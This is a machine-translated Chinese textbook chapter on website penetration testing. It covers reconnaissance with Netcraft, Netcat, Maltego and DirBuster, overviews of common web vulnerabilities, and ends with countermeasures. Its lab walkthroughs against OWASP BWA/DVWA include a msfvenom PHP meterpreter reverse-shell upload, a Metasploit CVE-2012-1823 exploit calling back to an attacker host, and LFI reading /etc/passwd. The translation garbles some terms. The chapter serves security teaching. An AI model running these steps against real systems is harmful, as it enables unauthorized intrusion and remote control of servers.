








# 十四、执行网站渗透测试

本章让我们远离我们习惯于利用的常见网络设备，而是重点检查 web 应用程序和服务器中的漏洞。

作为一名渗透测试人员是一项非常酷的工作，因为你被雇来黑客或侵入他人的网络和系统，但这是合法的。

作为一名渗透测试人员，还意味着发展和扩展你的技能集到各个领域；在某些情况下，您总是需要在客户端的 web 服务器上执行漏洞评估或渗透测试。本章首先将教您如何发现目标网站上使用的底层技术，以及如何发现托管在同一服务器上的其他网站。此外，您将了解如何通过上传和执行恶意文件，并在易受攻击的服务器上利用**本地文件包含**（**LFI**）在目标 web 服务器上执行多个攻击。

在本章中，我们将介绍以下主题：

*   信息收集
*   密码学
*   文件上载和文件包含漏洞
*   利用文件上载漏洞
*   利用代码执行漏洞
*   利用 LFI 漏洞
*   预防脆弱性

让我们潜水吧！

# 技术要求

本章的技术要求如下：

*   **卡利 Linux**：[https://www.kali.org/](https://www.kali.org/)
*   **OWASP 断网应用项目**：[https://sourceforge.net/projects/owaspbwa/](https://sourceforge.net/projects/owaspbwa/)

# 信息收集

在本书的前几部分中，特别是在[第 5 章](05.html)、*被动信息收集*和[第 6 章](06.html)、*主动信息收集*中，我们讨论了对目标进行广泛侦察的重要性，无论是单个系统、网络，甚至是一个网站。每项渗透测试都有一套指南和阶段。您可能还记得，以下是渗透测试的阶段：

1.  侦察（信息收集）
2.  扫描（和枚举）
3.  利用（获取访问权限）
4.  维护访问权限
5.  覆盖轨道

收集尽可能多的目标信息有助于我们确定目标是否存在任何安全漏洞，以及是否有可能利用这些漏洞。在下一节中，我们将首先学习如何发现网站上使用的技术。

# 发现网站上使用的技术

在网站渗透测试的信息收集阶段，确定实际 web 服务器上运行的底层技术非常重要。**Netcraft**（[www.Netcraft.com](http://www.netcraft.com)是一个互联网安全和数据挖掘网站，可以帮助我们发现任何给定网站的 web 服务器上的 web 技术。

要开始使用**Netcraft**，请执行以下步骤：

1.  前往[https://toolbar.netcraft.com/site_report](https://toolbar.netcraft.com/site_report) 。
2.  在网站上，在查找字段中输入网站的 URL。

以下是为[www.google.com](http://www.google.com)网站检索的结果：


Netcraft 能够提供有关目标网站的许多详细信息，包括以下内容：

在检索到 web 服务器操作系统和正在运行的应用程序后，现在可以缩小搜索范围，搜索适合目标的漏洞和漏洞利用。

3.  此外，您还可以使用**Netcat**实用程序执行**横幅抓取**。此技术用于检索目标设备上正在运行的守护程序或应用程序的服务版本。使用以下命令，我们可以在我们的机器（Kali Linux）和端口`80`上的目标 web 服务器之间建立连接：

```
nc www.google.com 80
```

4.  接下来，是检索 web 服务器横幅的时候了。执行以下命令：

```
GET / HTTP/1.1
```

5.  点击*输入*两次，web 服务器横幅将显示在顶部。以下是一个片段，显示了[www.google.com](http://www.google.com)地址的服务器横幅及其 web 服务器类型：


请记住，使用 Netcat 实用程序将在攻击者机器（Kali Linux）和目标之间建立会话。如果目标是隐蔽（不可检测），则不建议使用此方法，除非您正在欺骗您的 IP 地址和 MAC 地址。

可选地，可以使用**Telnet**执行该技术。只需将`nc`替换为`telnet`，您就可以在终端窗口上获得相同的结果。

在下一节中，我们将深入研究发现托管在同一 web 服务器上的网站。

# 发现同一服务器上的网站

多年来，企业已经从在自己的本地服务器上托管公司网站转向使用基于云的在线解决方案。在电子商务行业，有许多网站托管公司提供网站托管等解决方案。

托管提供商通常不会给客户一个专用服务器来托管他们的网站；相反，给出了一个共享空间。换句话说，托管您的网站的服务器也托管其他人的网站。这对服务提供商和客户都有好处。客户只需与其他人共享服务器上的资源，而且服务器提供商不需要为每个用户启动专用服务器，这将减少数据中心的功耗和物理存储空间，因此支付的费用更低。

由于服务提供商使用此业务和 IT 方法为其客户提供共享空间，因此安全性是一个问题。这就像在学校实验室里使用电脑；每个人都有自己的用户帐户，但仍然共享一个系统。如果一个用户决定在计算机上执行恶意操作，他们可能能够从其他用户的帐户/配置文件中检索敏感数据。

在[第 5 章](05.html)中，引入了*被动信息收集*，引入了**Maltego**，以便我们能够对目标网站进行被动信息收集。在本节中，我们将再次使用 Maltego 来帮助我们发现托管在同一服务器上的网站。

在继续之前，请确保您对使用**Maltego**执行各种信息收集任务感到满意。如果您难以记住如何使用 Maltego 中的基本工具，请花几分钟时间回顾[第 5 章](05.html)、*被动信息收集*。

按照以下步骤查找同一服务器上的网站：

1.  在 Maltego 上添加一个域。在本练习中，我使用免费的 web 托管提供商创建了一个新域。如果你已经拥有一个域名，你也可以使用你现有的域名。

你不应该在未经他人知情同意的情况下使用他人的域名。对于本练习，我仅创建并拥有目标域。

2.  右键单击域实体并选择所有转换|到 DNS 名称–NS（名称服务器），如以下屏幕截图所示：



Maltego 将花费几秒钟来检索目标域名的名称服务器：



我的自定义域的宿主提供程序使用两个名称服务器。

3.  一旦检索到名称服务器，就应该检查是否有其他网站托管在相同的服务器上。右键单击名称服务器并选择所有转换|到域（共享此 NS），如以下屏幕截图所示：


这个过程通常需要一两分钟才能完成。完成后，Maltego 将向您提供结果。正如您在以下代码段中所看到的，有多个网站托管在与我的域相同的服务器上：


在分析目标组织的 web 服务器时，此技术非常有用。有时，您可能会遇到一个组织在其网络的 DMZ 部分的同一服务器上托管其网站和其他内部网站。始终尝试执行枚举技术以提取 web 服务器上的任何站点。有时，组织将其内部网站点托管在与其公共站点相同的 web 服务器上。访问隐藏的站点可以提供丰富的信息。

**Disclaimer**: To protect confidentiality, information related to the websites has been blurred as it belongs to other parties.

在下一节中，我们将学习如何在网站上发现敏感文件。

# 发现敏感文件

为了继续网站渗透测试中的信息收集阶段，我们将尝试发现目标网站上的任何敏感文件和目录。要执行此任务，我们将使用**DirBuster**。DirBuster 是一个暴力 web 应用程序，其设计目标是显示目标 web 服务器上的任何敏感目录和文件。

在本练习中，我们将使用**OWASP 断开的 Web 应用程序**（**BWA**）**项目**虚拟机作为我们的目标，我们的**Kali Linux**机器作为攻击者。

要在 web 服务器上发现敏感文件，请执行以下步骤：

1.  通过导航到应用程序| 03–Web 应用程序分析| Web 爬虫和目录 Bruteforcing | DirBuster 打开 DirBuster。
2.  当 DirBuster 打开时，在目标 URL 字段中输入 OWASP BWA 虚拟机的 IP 地址。URL 应为`http://192.168.56.101:80/`格式。
3.  或者，您可以增加线程数。增加线程数将为应用程序应用更多的计算能力，因此将加快进程。
4.  单击浏览添加一个单词列表，DirBuster 将使用该列表在目标网站上进行索引和搜索。如果你点击列表信息，就会出现一个新窗口，提供一个推荐的单词列表。

5.  取消选中“递归”旁边的框。
6.  单击“开始”开始该过程。

以下屏幕截图显示了用于此任务的选项：


此外，您还可以使用其他位置的单词列表，例如**SecLists**。

**文件扩展名**选项可以定制，是查找包含`.bak`和`.cfg`等文件的隐藏目录的好方法。

当 DirBuster 执行蛮力攻击时，将出现结果窗口。要查看所有当前目录和文件，请单击结果–列表视图选项卡，如以下屏幕截图所示：


**HTTP 200 状态**代码表示此操作成功。换句话说，攻击者计算机已成功与目标网站/服务器上的特定目录通信。

此外，其他工具，如**Burp Suite**和**OWASP ZAP**可用于发现目标 web 服务器和网站上的隐藏目录和敏感文件。

如前一段所示，目录列表是使用 DirBuster 找到的。检查每个目录，因为它们可能包含有关目标的敏感文件和信息。

在下一节中，我们将了解`robots.txt`文件的重要性。

# robots.txt

`robots.txt`文件包含来自 web 服务器的目录和文件列表。`robots.txt`文件中的条目由网站所有者或网站管理员创建，用于向网络爬虫隐藏目录位置。换句话说，它通知搜索引擎的爬虫不要索引某个网站的某个目录。

渗透测试人员在域名末尾添加`robots.txt`扩展名以访问和查看其内容。以下是信誉良好组织的`robots.txt`文件条目：


如您所见，有多个目录。通过简单地将每个目录与域名组合，您将能够访问目标网站上的隐藏区域。让我们使用`/administrator/`目录：


我们现在可以访问站点控制面板的登录页面。使用其他目录可以提供其他有用的信息。

在下一节中，我们将深入分析目标服务器上发现的文件。

# 分析发现的文件

隐藏目录通常包含包含重要信息的敏感文件。

请遵循以下步骤开始分析发现的文件：

1.  在 DirBuster 结果窗口中，单击结果–树状视图选项卡。这将为您提供一个树状结构，允许您展开每个文件夹：



通过展开`cgi-bin`文件夹，我们可以看到两个文件，如前面的屏幕截图所示。使用 web 浏览器，我们可以添加目录扩展名和服务器的 IP 地址来创建 URL。

2.  输入`http://192.168.56.101/cgi-bin/`地址，网络浏览器显示文件、上次修改日期、文件大小和说明：


3.  此外，我们可以使用`dirb`检查目标 web 服务器上的文件和目录。`dirb`允许我们使用以下语法进行快速扫描：

```
dirb http://192.168.56.101
```

4.  （可选）您可以选择使用自定义字表作为命令的一部分：

```
dirb http://192.168.56.101 <wordlist>
```

下面的屏幕截图是 DirBuster 执行的快速扫描。如果仔细观察，您会发现 DirBuster 能够发现隐藏的目录和文件及其大小：


执行这样的任务可能有点耗时，可能需要几分钟甚至几个小时才能完成。

在下一节中，我们将深入学习密码学。

# 密码学

密码学是一种保护数据免受系统上未经授权人员攻击的技术。该技术包括获取消息，通过加密密码（算法）传递消息，并提供称为密文（加密消息）的输出：


密码学具有以下目标：

*   保密性
*   诚实正直
*   认证
*   不可抵赖

但是，web 应用程序可以在其应用程序中使用设计不当的加密代码来保护在最终用户的浏览器和 web 应用程序之间以及 web 应用程序和数据库服务器之间传输的数据。

此类安全缺陷可能导致攻击者窃取和/或修改 web 或数据库服务器上的敏感数据。

接下来，我们将了解各种 web 漏洞，以及如何利用目标 web 服务器上的文件上载和文件包含漏洞。

# 文件上载和文件包含漏洞

在本节中，我们将讨论允许攻击者在 web 服务器上执行文件上载、代码执行和文件包含攻击的各种安全漏洞。

在以下章节中，我们将介绍以下主题的基础知识：

*   **跨站点脚本**（**XSS**）
*   **跨站点请求伪造****CSRF**
*   **结构化查询语言注入**（**SQLi**）
*   不安全反序列化
*   常见的错误配置
*   易损部件
*   不安全的直接对象引用

让我们潜水吧！

# XSS

XSS 攻击是通过利用动态创建的网页中的漏洞进行的。这使得攻击者能够将客户端脚本注入到其他用户正在查看的网页中。当不知情的用户访问包含 XSS 的网页时，用户的浏览器将开始在后台执行恶意脚本，而受害者不知道：



XSS 攻击通常侧重于将用户重定向到恶意 URL、数据盗窃、操纵、显示隐藏的 iFrame 以及在受害者的 web 浏览器上显示弹出窗口。

恶意脚本包括 ActiveX、VBScript、JavaScript 或 Flash。

有两种类型的 XSS 攻击：

*   存储型跨站脚本漏洞
*   脚本漏洞

在下一节中，我们将详细讨论这两个问题。

# 存储型跨站脚本漏洞

存储的 XSS 在网页上是**持久的**。攻击者将恶意代码注入服务器上的 web 应用程序。代码/脚本永久存储在页面上。当潜在受害者访问受损网页时，受害者的浏览器将解析所有网络代码。但是，在后台，恶意脚本正在受害者的 web 浏览器上执行。这允许攻击者检索存储在受害者 web 浏览器上的任何密码、cookie 信息和其他敏感信息。

# 脚本漏洞

反射 XSS 是一种**非持续**攻击。在这种形式的 XSS 中，攻击者通常向潜在的受害者发送恶意链接。如果受害者单击恶意链接，它将打开受害者计算机上的默认 web 浏览器（反射）。web 浏览器将自动加载网页，恶意脚本将在其中自动执行，捕获密码、cookie 信息和其他敏感信息。

接下来，我们将深入探讨 CSRF。

# CSRF

CSRF 攻击有点类似于 XSS 攻击。让我们用一个类比来简化我们对 CSRF 攻击的解释。想象一个用户 Bob 打开他的 web 浏览器，登录到他的银行客户门户，在他的帐户上执行一些在线交易。Bob 在银行门户网站上使用了他的用户凭证；web 应用程序/服务器验证用户是否为 Bob，并自动信任其计算机作为与 web 服务器通信的设备。

但是，Bob 也会在同一浏览器中打开一个新选项卡以访问另一个网站，同时保持与银行门户网站（受信任网站）的活动会话。Bob 不怀疑他访问的新网站包含恶意代码，这些代码随后在 Bob 的机器上后台执行：



然后，恶意代码从 Bob 的机器向受信任站点注入 HTTP 请求。通过这种方式，攻击者能够捕获 Bob 的用户凭据和会话信息。此外，恶意链接还可能导致 Bob 的机器在受信任的站点上执行恶意操作。

在下一节中，我们将介绍**SQL 注入**（**SQLi**攻击的要点。

# SQLi

SQLi 允许攻击者将一系列恶意 SQL 代码/查询直接插入后端数据库服务器。这使攻击者能够操纵数据库中的记录，如添加、删除、修改和检索条目：


攻击者可以利用 web 应用程序的漏洞绕过安全控制和措施，进入数据库服务器/应用程序。SQLi 攻击通过 web 浏览器上的地址栏或网站的登录门户注入。

接下来，我们将讨论不安全的反序列化。

# 不安全反序列化

**序列化**是将对象转换为较小字节大小的过程，以将对象传输或存储到文件、数据库甚至内存中。此过程允许对象保持其状态，以便在需要时进行组装/重新创建。然而，序列化的反面称为**反序列化**。这是将对象从数据流（字节）重新创建为其原始形式的过程。

**当不受信任的数据被用于滥用应用程序的逻辑、创建拒绝服务攻击或在 web 应用程序/页面/服务器上执行恶意代码时，会发生不安全的反序列化**。在不安全的反序列化攻击中，攻击者可以在目标 web 服务器上执行远程代码。

有关不安全反序列化的更多信息，请访问 OWASP 网站[https://www.owasp.org/index.php/Top_10-2017_A8-Insecure_Deserialization](https://www.owasp.org/index.php/Top_10-2017_A8-Insecure_Deserialization) 。

在大多数情况下，系统管理员和 IT 专业人员不会认真对待这些漏洞，直到网络攻击出现在他们的前门。作为渗透测试人员，我们的工作是高效地发现目标组织中所有现有和隐藏的安全漏洞，并通知公司帮助保护其资产。

在下一节中，我们将概述 web 服务器上的一些常见错误配置。

# 常见的错误配置

web 服务器上的错误配置会产生漏洞，使攻击者能够未经授权访问默认用户帐户、访问隐藏页面和目录、对任何未修补的漏洞进行攻击，以及对服务器上不安全的目录和文件执行读/写操作。

安全性错误配置并不特定于任何级别的 web 应用程序，但会影响任何级别的 web 服务器和应用程序，例如操作系统（Windows 或 Linux）、web 服务器平台（Apache、IIS 和 Nginx）、框架（Django、Angular、Drupal 等），甚至服务器上托管的自定义代码。

在下一节中，我们将讨论 web 服务器和平台上存在的各种易受攻击的组件。

# 易损部件

以下是 web 应用程序中一些常见的易受攻击组件：

*   **Adobe Flash Player**：Adobe Flash Player 通常用作 web 浏览器中的多媒体播放器。它支持在线视频、音频和游戏等应用程序内容。然而，多年来，发现并记录了许多安全漏洞，用户已经不再在其 web 浏览器上使用此组件。最近的一个漏洞是**CVE-2018-15982**，它允许成功利用导致在目标系统上执行任意代码的漏洞。
*   **JBoss 应用服务器**：JBoss 应用服务器是一个开源的、能够跨平台运行的 Java web 容器。在撰写本书时，发现了一个严重的漏洞，使攻击者能够在 JBoss 应用程序服务器上远程执行恶意代码，从而获得对目标的完全控制。

该漏洞影响了所有 JBoss 应用程序服务器 4.0 及更高版本。

*   **Adobe ColdFusion**：Adobe ColdFusion 是一个商业化的 web 应用开发平台。它的设计是为了让开发人员能够轻松地将 HTML 页面连接到数据库。然而，在 2018 年，发现了一个严重漏洞，该漏洞允许攻击者在有任何限制的情况下将数据上传到受损系统上，进而允许攻击者使用 web Shell 控制服务器。该漏洞记录为**CVE-2018-15961**。

请注意，这些只是 web 服务器上许多易受攻击组件中的一部分。随着时间的推移，安全研究人员将继续发现并记录新的漏洞。

在下一节中，我们将简要讨论**不安全的直接对象引用**（**IDOR**。

# 伊多尔

根据 OWASP（[www.OWASP.org](http://www.owasp.org)），当基于用户提供的输入向对象提供访问时，就会发生 IDOR。如果发现 web 应用程序易受攻击，攻击者可以尝试绕过授权并访问受损系统上的资源。

接下来，我们将演示如何利用目标机器上的文件上载漏洞。

# 利用文件上载漏洞

在本练习中，我们将使用 OWASP BWA 虚拟机演示文件上载漏洞。让我们开始：

1.  首先，使用`msfvenom`在您的 Kali Linux（攻击者）计算机上创建有效负载，稍后将上载到目标服务器。使用以下语法，创建基于 PHP 的负载以建立反向连接：

```
msfvenom -p php/meterpreter/reverse_tcp lhost=<IP address of Kali Linux> lport=4444 -f raw
```

2.  复制高亮显示的代码，打开文本编辑器，将文件保存为`img.php`：


3.  使用 Kali Linux 中的 web 浏览器，在地址栏中输入 OWASP BWA 的 IP 地址，然后点击*输入*。
4.  在主页面上，点击**该死的易受攻击的 Web 应用程序**：



5.  DVWA 登录门户将出现。以`admin`/`admin`作为用户名/密码登录：


6.  登录后，您将在左侧看到一个菜单。单击上载以查看漏洞：文件上载页面：


7.  点击浏览…，选择`img.php`文件，然后点击页面上的上传。

8.  上传文件后，您将收到一条消息，显示文件存储在服务器上的目录：



9.  复制文件位置，即`hackable/uploads/img.php`，并将其粘贴到 URL 中以执行有效负载（`img.php`）。以下是预期的 URL：

```
192.168.56.101/DVWA/ hackable/uploads/img.php
```

点击*进入*执行有效载荷。

10.  在 Kali Linux 上，使用以下命令加载 Metasploit：

```
service postgresql start msfconsole
```

11.  在 Metasploit 中启用`multi/handler`模块，设置反向 TCP 有效负载，并使用以下命令执行攻击：


请务必检查 Kali Linux 机器的 IP 地址，并相应调整`LHOST`参数。

12.  在服务器上执行了`img.php`有效负载并在 Metasploit 上启用了`multi/handler`后，我们能够在攻击者机器上收到一个反向 shell，如以下屏幕截图所示：


使用`meterpreter`shell，您现在可以对受损系统执行进一步的操作。

在下一节中，我们将演示如何利用代码执行漏洞。

# 利用代码执行漏洞

当设备易受代码执行攻击时，允许攻击者或渗透测试人员在目标服务器上远程执行代码。此外，渗透测试仪将能够检索存储在目标上的源代码。

要完成此练习，我们将使用以下拓扑：


要开始利用代码执行漏洞，请执行以下步骤：

1.  我们将尝试发现目标是否易受**CVE-2012-1823**攻击。要发现目标是否易受攻击，请在`nmap`中使用以下命令：

```
nmap -p80 --script http-vuln-cve2012-1823 <target IP address> 
```

Nmap 可能并不总是返回表明目标上存在漏洞的结果。但是，这不应阻止您确定目标是否易受攻击。

2.  接下来，在**Metasploit**中，使用`search`命令找到合适的漏洞利用模块，帮助我们利用目标上的漏洞：


3.  接下来，使用以下命令使用模块并设置远程目标：

```
use exploit/multi/http/php_cgi_arg_injection set RHOSTS 10.10.10.11
```

4.  此外，以下命令允许您使用适当的有效负载，在利用漏洞和设置本地主机 IP 地址时建立远程 shell：

```
set payload php/meterpreter/reverse_tcp set LHOST 10.10.10.10
```

5.  使用`exploit`命令对目标发起攻击。以下屏幕截图显示该漏洞已在目标上成功利用：


有效载荷已经发送给受害者，我们有一个反向炮弹。完成本节之后，您现在可以在目标服务器上发现并执行代码。

在下一节中，我们将演示如何利用 LFI 漏洞。

# 利用 LFI 漏洞

易受 LFI 安全漏洞攻击的服务器允许攻击者通过 web 浏览器中的 URL 显示文件内容。在 LFI 攻击中，渗透测试人员可以使用`../`或`/`从其目录中读取任何文件的内容。

首先，让我们回到**OWASP BWA**中的**该死的易受攻击的 Web 应用程序**（**DVWA**）Web 界面：

1.  在 DVWA web 界面的左侧菜单上，单击文件包含：



2.  通过多次重复`../`并插入`passwd`文件的目录，我们可以在目标 web 服务器上查看`passwd`文件的内容：


这种类型的攻击测试系统是否存在目录横向漏洞。目录横向允许攻击者访问受限制的位置和文件，以及在目标 web 服务器上执行命令。该攻击者只需在 URL 中使用`dot-dot-slash (../)`语法即可操纵变量。

到目前为止，我们已经完成了一些练习，以利用目标系统的各种弱点。在下一节中，我们将了解如何防止和缓解安全漏洞。

# 预防脆弱性

以下是可用于防止 web 服务器和 web 应用程序攻击并修复此类漏洞的对策：

*   将最新（稳定的）修补程序和更新应用于操作系统和 web 应用程序。
*   在 web 服务器上禁用任何不必要的服务和协议。
*   尽可能使用安全协议，如支持数据加密。
*   如果使用不安全的协议，请实施安全控制以确保它们不被利用。
*   如果 web 应用程序未使用 WebDAV，请禁用它。
*   删除所有未使用的模块和应用程序。
*   禁用所有未使用的默认帐户。
*   更改默认密码。
*   实施安全策略以防止暴力攻击，例如针对失败登录尝试的查找策略。
*   禁用目录列表的服务。
*   监控并检查日志中是否存在任何可疑活动。
*   实施来自受信任的**证书颁发机构**（**CAs**）的数字证书，并确保数字证书始终是最新的。
*   确保数据输入验证和消毒定期实施和测试。
*   实现一个**Web 应用防火墙**（**WAF**。

这些项目只是 IT 专业人员可以适应的预防措施的总结；然而，由于每天都会出现新的、更复杂的威胁和攻击，因此还需要进行更多的研究。

# 总结

在本章中，我们讨论了可用于确定 web 服务器上的 web 技术并对目标 web 应用程序执行真实世界模拟攻击的技术。

现在，您可以发现在目标 web 服务器上使用的底层 web 技术，并执行进一步的枚举以发现托管在单个 web 服务器上的其他网站。此外，通过完成本章中的练习，您可以发现目标服务器上的任何敏感文件和目录，并执行网站渗透测试以利用文件上载和 LFI 漏洞。

我希望这一章对你的学习和职业生涯有帮助和帮助。在下一章[第 15 章](15.html)*网站渗透测试–获取访问权*中，您将学习如何使用高级 web 应用程序渗透测试。

# 问题

1.  哪些是 web 服务器平台？
2.  可以使用什么工具来发现 web 服务器上的隐藏文件？
3.  什么 HTTP 状态代码表示成功？
4.  什么类型的攻击允许攻击者从受害者的 web 浏览器检索存储的数据？
5.  什么类型的攻击允许恶意用户操纵数据库？

# 进一步阅读

以下是一些额外的阅读资源：

*   **易损件**：[https://resources.infosecinstitute.com/exploring-commonly-used-yet-vulnerable-components/](https://resources.infosecinstitute.com/exploring-commonly-used-yet-vulnerable-components/)
*   **测试不安全的直接对象引用**：[https://www.owasp.org/index.php/Testing_for_Insecure_Direct_Object_References_（OTG-AUTHZ-004）](https://www.owasp.org/index.php/Testing_for_Insecure_Direct_Object_References_(OTG-AUTHZ-004))
*   **Web 服务器配置错误**：[https://www.owasp.org/index.php/Top_10-2017_A6-Security_Misconfiguration](https://www.owasp.org/index.php/Top_10-2017_A6-Security_Misconfiguration)